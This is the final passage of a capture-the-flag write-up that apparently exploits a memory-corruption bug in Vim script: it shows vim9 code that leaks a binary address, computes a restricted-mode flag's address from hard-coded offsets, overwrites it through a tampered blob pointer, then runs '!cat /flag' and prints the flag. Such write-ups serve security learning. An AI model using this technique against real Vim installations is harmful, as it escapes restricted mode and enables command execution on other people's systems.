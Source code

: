```vim
var binary_leak = ReadQWORD(blob_replace, blob_o, stdout_ptr)
var binary_address: number = binary_leak - 0x379568
var restricted_address: number = binary_address + 0x384638
SetBlobDataPtr(blob_replace, restricted_address)
blob_o.b[0] = 0  # Also set `obj_class` to `NULL` so that the object doesn't get freed and the script can happly end without crashing
```

Finally we are not restricted anymore and we can cat the flag
```
!cat /flag
```

[full exploit](solution.vim)


## Flag

`flag{blobs_are_op}`
